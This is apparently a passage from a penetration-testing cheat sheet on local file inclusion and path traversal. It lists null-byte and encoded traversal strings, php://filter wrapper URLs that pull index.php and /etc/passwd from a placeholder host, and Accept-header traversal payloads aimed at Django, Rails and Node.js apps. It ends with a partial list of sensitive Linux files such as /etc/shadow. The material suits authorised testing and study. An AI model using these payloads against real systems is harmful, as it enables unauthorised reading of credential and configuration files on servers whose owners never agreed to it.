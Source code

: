 <h5>Null Byte</h5>
<pre><code class="language-c">%00
0x00
</code></pre>
<h5>Encoded Traversal Strings</h5>
<pre><code class="language-c">../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
..././
...\.\
</code></pre>
<h5>php://filter Wrapper</h5>
<blockquote>
<p>https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb</p>
</blockquote>
<blockquote>
<p>https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion</p>
</blockquote>
<blockquote>
<p>https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter</p>
</blockquote>
<pre><code class="language-c">url=php://filter/convert.base64-encode/resource=file:////var/www/&lt;RHOST&gt;/api.php
</code></pre>
<pre><code class="language-c">http://&lt;RHOST&gt;/index.php?page=php://filter/convert.base64-encode/resource=index
http://&lt;RHOST&gt;/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
base64 -d &lt;FILE&gt;.php
</code></pre>
<h5>Django, Rails, or Node.js Web Application Header Values</h5>
<pre><code class="language-c">Accept: ../../../../.././../../../../etc/passwd{{
Accept: ../../../../.././../../../../etc/passwd{%0D
Accept: ../../../../.././../../../../etc/passwd{%0A
Accept: ../../../../.././../../../../etc/passwd{%00
Accept: ../../../../.././../../../../etc/passwd{%0D{{
Accept: ../../../../.././../../../../etc/passwd{%0A{{
Accept: ../../../../.././../../../../etc/passwd{%00{{
</code></pre>
<h5>Linux Files</h5>
<pre><code class="language-c">/etc/passwd
/etc/shadow
/etc/aliases
/etc/anacrontab
/etc/apache2/apache2.conf
/etc/apache2/httpd.conf
/etc/apache2/sites-enabled/000-default.conf
/etc/at.allow
/etc/at.deny
/etc/bashrc
/etc/bootptab
/etc/chrootUsers
/etc/chttp.conf
/etc/cron.allow
/etc/cron.deny
/etc/crontab
/etc/cups/cupsd.conf
/etc/exports
/etc/fstab